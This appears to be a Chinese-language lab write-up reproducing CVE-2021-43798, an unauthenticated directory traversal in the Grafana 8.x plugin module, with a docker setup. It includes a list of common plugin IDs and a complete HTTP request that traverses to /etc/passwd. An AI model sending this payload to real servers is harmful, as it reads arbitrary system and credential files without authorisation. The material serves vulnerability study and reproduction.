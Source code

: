 # Grafana 8.x 插件模块目录穿越漏洞（CVE-2021-43798）

Grafana是一个开源的度量分析与可视化套件。在2021年12月，推特用户@j0v 发表了他发现的一个0day，攻击者利用这个漏洞可以读取服务器上的任意文件。

参考链接：

- https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/
- https://twitter.com/hacker_/status/1467880514489044993
- https://nosec.org/home/detail/4914.html
- https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw

## 漏洞环境

执行如下命令启动一个Grafana 8.2.6版本服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`即可查看登录页面，但是这个漏洞是无需用户权限的。

## 漏洞复现

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用`../`的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件（你也可以将其中的`alertlist`换成其他合法的插件id）：

```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close


```

![](1.png)
